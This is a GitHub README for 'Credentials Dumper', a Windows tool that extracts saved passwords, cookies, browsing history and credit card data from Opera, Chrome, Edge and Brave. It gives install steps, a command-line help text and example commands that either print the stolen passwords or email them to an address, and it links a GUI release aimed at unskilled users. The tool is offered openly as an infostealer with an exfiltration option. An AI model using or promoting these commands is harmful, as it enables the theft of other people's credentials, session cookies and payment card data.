 # Credentials Dumper
A Tool That Display Browsers Credentials on your terminal
## Supported Os:
* Windows Only
## Supported Browsers:
| Supported browsers  | Passwords  | Cookies  | History  |  Credit Cards |
| ------------- | ------------- | ------------- | ------------- | ------------- |
| Opera |  ✅ | ✅  | ✅ | ✅
| Chrome |  ✅ | ✅  | ✅ | ✅
| Microsoft Edge |  ✅ | ✅  | ✅ | ✅
| Brave |  ✅ | ✅  | ✅ | ✅
## Usage:
### Terminal/cmd:
```
git clone https://github.com/SHBBL/Credentials-Dumper.git
pip3 install -r requirements.txt
cd Credentials-Dumper && cd windows
python Credentials_Dumper.py -h
```
#### Options:
```
  -h, --help            show this help message and exit
  -browser , --browser  Browser Name: chrome/msedge/brave/opera
  -get , --get          Get:passwords/cookies/history/creditcards
  -send , --send        Select: passwords/cookies/history/creditcards
  -to , --to            Send: passwords/cookies/history/creditcards to email
```
## Example:
### Dump it on screen:
``
python Credentials_Dumper.py -browser msedge -get passwords
``
#### Output:
![alt text](https://github.com/SHBBL/Credentials-Dumper/blob/main/blob/img.jpg?raw=true)

### Send to email:
``
python Credentials_Dumper.py -browser msedge -send passwords -to example@example.com 
``
#### Output:
Check Your spam or inbox
### GUI:
For SKids go to [RELEASES](https://github.com/SHBBL/Credentials-Dumper/releases/tag/v1.0)

